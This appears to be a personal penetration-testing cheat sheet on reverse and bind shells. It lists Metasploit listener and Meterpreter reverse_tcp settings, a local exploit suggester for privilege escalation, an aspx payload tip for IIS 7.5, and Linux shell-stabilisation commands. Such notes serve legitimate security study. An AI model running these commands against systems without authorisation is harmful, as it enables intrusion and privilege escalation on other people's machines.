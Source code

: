 # SHELL, reverse, bind

## msfconsole

- listener

  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
    - the same one used to generate the payload with msfvenom

- privesc
  - Running `sysinfo` in the Meterpreter session reveals that the target is x86 architecture, so it is
    possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
    not be said for running the module on x64
  - `use post/multi/recon/local_exploit_suggester`
    - find potential vectors for privesc, msf modules

## payloads

- for `Microsoft IIS httpd 7.5` use aspx file

## Linux shell stabilization

- `python2 -c 'import pty;pty.spawn("/bin/bash")'`
- ctrl + z to background
- `stty raw -echo`, to fix tab completition
- `fg`, to bring back the shell
